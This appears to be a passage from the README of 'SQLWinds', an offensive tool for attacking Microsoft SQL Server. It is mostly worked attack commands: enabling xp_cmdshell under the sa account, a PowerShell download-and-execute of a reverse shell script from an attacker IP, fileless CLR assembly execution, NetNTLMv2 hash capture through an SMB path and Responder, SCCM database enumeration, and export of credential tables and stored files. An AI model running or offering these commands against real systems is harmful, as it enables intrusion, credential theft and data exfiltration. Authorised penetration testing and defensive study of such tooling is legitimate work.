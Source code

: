 
## Examples

**1. Audit**
```bash
SQLWinds.exe --server dc01 --integrated --security-audit 
```

**2. Leveraging xp_cmdshell for Code Execution**
```bash
SQLWinds.exe --server 192.168.1.15 --user sa --pass pass --enable-xp-cmdshell
# In the REPL that opens:
sqlwinds> :xp whoami /all
sqlwinds> :xp powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.10/revshell.ps1')"
```

**3. In-Memory CLR Execution (Fileless)**
```bash
# Compile your .NET assembly to a DLL (e.g., CommandExecutor.dll)
sqlwinds> :enable_clr
sqlwinds> :memclr "C:\Tools\CommandExecutor.dll" "CommandExecutor.Class1" "Exec" "whoami"
```

**4. Stealing NetNTLMv2 Hashes via SRelay**
```bash
# On your machine: sudo responder -I tun0
sqlwinds> :unc_smb \\10.10.15.10\fake_share
```

**5. SCCM Database Exploitation**
```bash
SQLWinds.exe --server sccmdb.corp.local --integrated
sqlwinds> :sccm_info
sqlwinds> :sccm_collections
sqlwinds> :sccm_application "Microsoft 365"
```

**6. Data Exfiltration**
```bash
# Export sensitive data to CSV
sqlwinds> :exportcsv "SELECT username, password FROM users" credentials.csv

# Download a file stored in the database
sqlwinds> :download "SELECT file_data FROM documents WHERE id=1" secret.docx
```

---

## 🤝 Contributing & Support

We welcome contributions! If you have ideas for improvements or find any issues:

1. Check the [Wiki](https://github.com/blue0x1/sqlwinds/wiki) for documentation
2. Search existing [Issues](https://github.com/blue0x1/sqlwinds/issues) to avoid duplicates
3. Create a new issue with detailed information about your suggestion or bug report
